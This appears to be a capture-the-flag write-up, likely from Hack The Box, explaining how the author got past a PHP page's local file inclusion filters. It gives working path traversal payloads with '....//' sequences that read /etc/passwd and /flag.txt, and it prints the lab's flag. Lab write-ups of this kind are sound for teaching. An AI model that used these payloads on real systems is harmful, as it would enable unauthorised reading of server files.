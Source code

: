 ## Challenge

The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt

## Solution

First I tried the path traversal by making the link form:

`http://94.237.54.42:32961/index.php?language=languages/es.php` to

`http://94.237.54.42:32961/index.php?language=../../../../../etc/passwd`

And it showed, `Illegal path specified!` which gives me an idea that the initial folder should be `languages`.

So, I try the `http://94.237.54.42:32961/index.php?language=languages/../../../../../../etc/passwd/` but still nothing got back. Now, not even an error.

This makes me think that the first protection was bypassed, but now the file is not found. And this means that there is another protection, like removing `../`.

In this case, I try double them, so when they are removed, if not done recursively I will be able to read the file.

And I send a request to:

```http
GET /index.php?language=languages/....//....//....//....//....//....//etc/passwd HTTP/1.1
```

In this case I got the `etc/passwd` file, which means I bypassed all the protection filters here for path traversal.

So let's just modify it to read the `/flag.txt` file

```http
GET /index.php?language=languages/....//....//....//....//....//....//flag.txt HTTP/1.1
```

And I got the content: `HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}`

